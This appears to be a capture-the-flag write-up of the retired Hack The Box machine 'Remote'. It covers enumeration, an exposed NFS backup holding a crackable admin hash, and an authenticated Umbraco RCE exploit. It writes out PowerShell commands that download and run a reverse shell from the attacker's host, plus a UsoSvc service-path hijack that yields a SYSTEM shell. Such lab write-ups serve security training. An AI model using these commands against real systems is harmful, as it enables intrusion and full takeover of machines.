


# Remote

This is the write-up for the box Remote that got retired at the 5th September 2020.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.180    remote.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/remote.nmap 10.10.10.180
```

```
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service     
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking FTP (Port 21)

On FTP _anonymous login_ is allowed but there are no files and uploading files does not work either:
```
ftp 10.10.10.180
```

## Checking HTTP (Port 80)

The website is some kind of custom-developed shop called _Acme Widgets_ and has several menus, but most descriptions are the typical _Lorem Ipsum_ text.
On the path _/contact_, it shows that **Umbraco Forms** is required to render the form:



When clicking on the link to install the forms, it forwards to _/umbraco/#/login_ and there is a login page to the application:



The software [Umbraco CMS](https://umbraco.com/) is an Open Source **ASP.NET Content Management System** written in C#.

Lets search for public vulnerabilities and exploits in this software:
```
searchsploit umbraco
```
```
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution
```

There is a Remote Code Execution vulnerability that needs authentication, so the other services may contain credentials.

## Checking NFS (Port 2049)

The tool **showmount** of the **nfs-common package** will help to enumerate the NFS share:
```
showmount -e 10.10.10.180

/site_backups (everyone)
```

There is a path called _site_backups_, that can be mounted on our local client:
```
mkdir /mnt/remote

mount -t nfs 10.10.10.180:/site_backups /mnt/remote
```

The contents of the folder look like a copy of the web page.
A database file can be found in _/App_Data/Umbraco.sdf_ that cannot be read, but the `strings` can be searched for usernames:
```
strings Umbraco.sdf | grep password

strings Umbraco.sdf | grep admin
```
```
admin admin@htb.local b8be16afba8c314ad33d812f22a04991b90e2aaa {"hashAlgorithm":"SHA1" }
(...)
```

The user _admin@htb.local_ seems to be a valid user for the **Umbraco login form** and the password is hashed with **SHA-1**.
The hash can be found on hash databases like [CrackStation](https://crackstation.net/):
```
Hash	                                     Type	 Result
b8be16afba8c314ad33d812f22a04991b90e2aaa	 sha1	 baconandcheese
```

Login to **Umbraco** works with the username _admin@htb.local_ and password and the RCE vulnerability can be exploited next.

## Exploiting Umbraco

Copying the exploit code and modifying it accordingly to our needs:
```
searchsploit -m aspx/webapps/46153.py
```
```
(...)
{ string cmd = "/c ping 10.10.14.9"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
proc.StartInfo.FileName = "cmd.exe"; (...)

login = "admin@htb.local";
password= "baconandcheese";
host = "http://10.10.10.180";

(...)
```

Executing the script:
```
python3 46153.py
```

After executing it, the `tcpdump` listener on my local client receives the ICMP packets and command execution is proofed.
Lets use the _Invoke-PowerShellTcp.ps1_ script from the **Nishang scripts** to gain a reverse shell connection:
```
string cmd = "IEX( IWR http://10.10.14.9:8000/revshell.ps1 -UseBasicParsing)"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
proc.StartInfo.FileName = "powershell.exe"; (...)
```
```
python3 46153.py
```

After executing the script, the listener on my IP and port 9001 starts a reverse shell connection as the user _DefaultAppPool_.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Windows Enumeration script**:
```
IWR http://10.10.14.9:8000/winPeas.exe -OutFile winPeas.exe

.\winPeas.exe
```

This user seems to have access to the service **UsoSvc** and can modify it.

Encoding the PowerShell command to run into Base64:
```
echo "IEX(IWR http://10.10.14.9:8000/revshell.ps1 -UseBasicParsing)" | iconv -t utf-16le | base64 -w 0
```

Modifying the path of the _UsoSvc service_ to execute a reverse shell:
```
sc.exe config UsoSvc binpath="cmd.exe /c powershell.exe -EncodedCommand SQBFAFgAKABJAFcAUgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AOQA6ADgAMAAwADAALwByAGUAdgBzAGgAZQBsAGwALgBwAHMAMQAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAKQAKAA=="
```

Restarting the service:
```
sc.exe stop UsoSvc

sc.exe start UsoSvc
```

After starting the service, the PowerShell command executes the reverse shell script and the listener on my IP starts a shell session as _SYSTEM_!
